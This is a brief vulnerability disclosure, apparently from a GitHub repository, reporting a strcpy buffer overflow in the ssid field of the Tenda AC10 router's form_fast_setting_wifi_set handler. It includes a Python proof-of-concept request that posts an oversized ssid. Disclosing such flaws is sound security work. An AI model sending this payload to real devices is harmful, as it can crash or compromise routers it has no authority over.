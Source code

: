 # buffer overflow

## Tenda_AC10

version: V15.03.06.47

## Description:

There is a buffer overflow in httpd/form_fast_setting_wifi_set

## Source:

you may download it from : https://www.tendacn.com/download/detail-3796.html

## Analyse:


![](1.png)

get value from ssid ,then call strcpy, cause buff overflow




## POC
```
url = "http://192.168.1.13/goform/form_fast_setting_wifi_set"
payload = 'A'*300 + '\n'

r = requests.post(url, data={'ssid': payload})
``` 
